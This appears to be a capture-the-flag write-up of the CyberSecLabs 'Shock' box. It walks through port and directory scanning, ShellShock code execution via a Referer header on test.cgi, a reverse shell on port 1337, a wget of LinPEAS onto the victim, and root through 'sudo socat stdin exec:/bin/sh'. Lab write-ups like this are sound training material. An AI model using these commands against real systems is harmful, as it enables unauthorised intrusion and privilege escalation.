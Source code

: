 ```yaml
---
layout: page
title: Shock - CyberSecLabs
permalink: /posts/ctf/cyberseclabs/shock.html
---
```


# Shock - CyberSecLabs


First things first, lets run our nmap scan.  I use a custom script that scans for ports then passes those open ports to nmap for service enumeration, however you can achieve the same results with the below command.

test

> nmap -p- -A 172.31.1.3

![image](https://user-images.githubusercontent.com/50459517/102672581-cb602200-4156-11eb-8dc0-56c5dcf085d2.png)

We see we have a few ports open.  21, 22 and 80.  I normally like to check out port 80 first, do a scan for directories and check other ports while that's running.  Lets see what's on port 80.

![image](https://user-images.githubusercontent.com/50459517/102672611-e16de280-4156-11eb-8149-f8f67cb0bdd5.png)

After some manual enumeration of the webpages and source code, nothing seems to jump out at me.  So lets scan for some directories.  I like to use _dirsearch_ for this, but any directory busting tool should work just fine.

``
dirsearch -u http://172.31.1.3/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x 400,500 -e php,txt,html -f -t 100
``

While that is running, lets look at port 21 and see if we can anonymously log in.

![image](https://user-images.githubusercontent.com/50459517/102672633-f480b280-4156-11eb-91e2-4c65a38b7dd1.png)

Login seems to fail.. I also did some quick searches with google and searchsploit for known exploits on vsFTPd 3.0.3 but didn't find anything that jumped out at me.

![image](https://user-images.githubusercontent.com/50459517/102672677-12e6ae00-4157-11eb-92ca-19c9819f673b.png)

With our scan complete, I see a directory called `cgi-bin` that jumps out at me, this directory often stores various scripts that the Apache server can use the CGI interface to execute.  So I usually like to do a quick scan for `.cgi` scripts in this directory however if I get stuck I may search for other extensions such as `.py` or `.pl` as well.

`dirsearch -u http://172.31.1.3/cgi-bin/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x 400,500 -e cgi -f -t 100`

Right away we see a file called `test.cgi`.  Now if we do a quick search for "Apache cgi script exploits" we may find a few things, however the one that sticks out to me is called ShellShock.  This is because the name of the box is called Shock as well as the HTML Title is called "Steak House Shock".  So I believe this may be vulnerable to the ShellShock vulnerability.

Now ShellShock is a vulnerability in certain versions of Bash that takes advantage of the way bash handles environment variables.  You can trick bash into executing code that is being passed into the environment variable rather than just storing the data.  Here is a nice little screenshot from Symantec explaining this better.

![image](https://user-images.githubusercontent.com/50459517/102672758-5fca8480-4157-11eb-95fa-67fb546522eb.png)

Also I found a great PoC at this website explaining how it works and how to test for it.  Lets try this out.

[https://www.netsparker.com/blog/web-security/cve-2014-6271-shellshock-bash-vulnerability-scan/#:~:text=Shellshock is a security bug causing Bash to,the server%2C also known as remote code execution](https://www.netsparker.com/blog/web-security/cve-2014-6271-shellshock-bash-vulnerability-scan/#:~:text=Shellshock%20is%20a%20security%20bug%20causing%20Bash%20to,the%20server%2C%20also%20known%20as%20remote%20code%20execution)

I opened Burp Suite and sent `http://172.31.1.3/cgi-bin/test.cgi` to the Burp Proxy so I can mess around with the GET request.

![image](https://user-images.githubusercontent.com/50459517/102672823-8983ab80-4157-11eb-8a92-452dd49661ac.png)

Now we can send this to Repeater and see what our Response looks like.

![image](https://user-images.githubusercontent.com/50459517/102672853-9f916c00-4157-11eb-8718-7d0d33f64950.png)

Now like we saw in the article, lets modify the Referer: header in the Request (In this case we will need to add this header) and see if we get code execution.

![image](https://user-images.githubusercontent.com/50459517/102672873-b20ba580-4157-11eb-9fb7-bac5355f3e78.png)

Awesome!  We have code execution!  Lets get that shell now!

We will use just a basic bash one liner to send a request to use on port 1337 and start a netcat listener on our machine that will listen for the request.  Thus resulting in a reverse shell.

![image](https://user-images.githubusercontent.com/50459517/102672900-c6e83900-4157-11eb-819d-59b4a99f4941.png)

![image](https://user-images.githubusercontent.com/50459517/102672934-db2c3600-4157-11eb-8d2e-d5655d299e7d.png)

Now we have a shell as www-data.  After looking around we find a user named scott.  In his home directory we find `access.txt` which we have permissions to read.

![image](https://user-images.githubusercontent.com/50459517/102672947-e717f800-4157-11eb-89d5-aa3c19b5d8e5.png)

With that out of the way, I normally like to run some type of post-enumeration script line LinPEAS.  We can just host up the file with `python -m SimpleHTTPServer 80` on our machine and then `wget http://ip/linpeas.sh` onto the victim machine in a directory we have rwx permissions in (i.e. /tmp)

![image](https://user-images.githubusercontent.com/50459517/102673038-2d6d5700-4158-11eb-9eb9-a0523ab69804.png)

Now lets run the file and see what it finds for us.

![image](https://user-images.githubusercontent.com/50459517/102673060-3d853680-4158-11eb-86cb-a0038444b4a5.png)

Unfortunately I had some issues with the script stopping at Internet Access checks and forcing me to stop the script.  I troubleshooted this for a little bit before deciding to move on as I think it may have been something with the machine timing out during this check.

Anyways I decided to do a little manual enumeration before trying another script.  Luckily I found something first thing!  I ran `sudo -l` to list anything I may have permissions to run as a sudo user.

![image](https://user-images.githubusercontent.com/50459517/102673082-4d047f80-4158-11eb-9532-fff36f7a688d.png)

As you can see, we have permissions to run socat as root with no password.  Great!  Lets check GTFOBins to see if we can escalate our privileges.

[https://gtfobins.github.io/](https://gtfobins.github.io/)

Per GTFOBins, we see we can run `sudo socat stdin exec:/bin/sh` to escalate our privileges.  This works because we have permission to run the socat utility as root with no password needed.  The option `stdin`(Standard Input) uses a file descriptor of 0 and `exec:/bin/bash` means it will execute a bash terminal at the end of the pipe.  So if I understand it correctly, instead of using socat to connect to or listen in on a connection from another host, we are just passing the /bin/bash script into our terminal.  And since we are running this as root, we will open a terminal instance as root, thus resulting in use escalating our privileges.

![image](https://user-images.githubusercontent.com/50459517/102673108-686f8a80-4158-11eb-94d1-7fb4b2343874.png)

And that's it!  This was a fun little box that shows a pretty straight forward vulnerability in ShellShock as well as a common mis-configuration seen with allow low level users to run certain programs/files as elevated users.
